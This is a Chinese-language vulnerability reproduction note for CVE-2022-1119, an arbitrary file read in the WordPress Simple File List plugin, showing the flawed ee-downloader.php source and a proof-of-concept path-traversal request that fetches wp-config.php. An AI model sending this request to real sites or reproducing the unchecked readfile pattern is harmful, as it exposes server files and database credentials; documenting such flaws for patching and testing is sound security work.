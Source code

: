 # WordPress Simple File List ee-downloader.php 任意文件读取漏洞 CVE-2022-1119

## 漏洞描述

WordPress Simple File List插件 ee-downloader.php文件存在任意文件读取漏洞，攻击者通过漏洞可以读取服务器中的任意文件

## 漏洞影响

<a-checkbox checked>WordPress Simple File List < 3.2.8</a-checkbox></br>

## 插件名

<a-checkbox checked>Simple File List</a-checkbox></br>

<a-checkbox checked>https://downloads.wordpress.org/plugin/simple-file-list.3.2.17.zip</a-checkbox></br>

## 漏洞复现

存在漏洞的文件为 `wp-content/plugins/simple-file-list/includes/ee-downloader.php`

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1656833917266-d2d288f0-265a-426f-9096-b89b600be62a.png)

```php
<?php // Simple File List - ee-downloader.php - rev 1.19 - mitchellbennis@gmail.com

// Force File to Download
// This script is accessed via javascript on ee-download.php 

$eeFile =  filter_var($_GET['eeFile'], FILTER_SANITIZE_STRING, FILTER_FLAG_ENCODE_LOW);

if(is_readable($eeFile)) {

    header('Pragma: public'); // required
    header('Expires: 0'); // no cache
    header('Cache-Control: must-revalidate, post-check=0, pre-check=0');
    header('Last-Modified: '. gmdate ('D, d M Y H:i:s', filemtime ($eeFile)) .' GMT');
    header('Cache-Control: private',false);
    header('Content-Type: ' . mime_content_type($eeFile) );
    header('Content-Disposition: attachment; filename="'. basename($eeFile) .'"');
    // header('Content-Transfer-Encoding: binary');
    header('Content-Length: '. filesize($eeFile)); // provide file size
    header('Connection: close');
    readfile($eeFile); // Start the download

}
?>
```

直接传参获取文件信息, 验证POC

```php
/wp-content/plugins/simple-file-list/includes/ee-downloader.php?eeFile=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e/wp-config.php
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1656833959273-cb7b870d-acb3-4804-88c2-ca3531195dc7.png)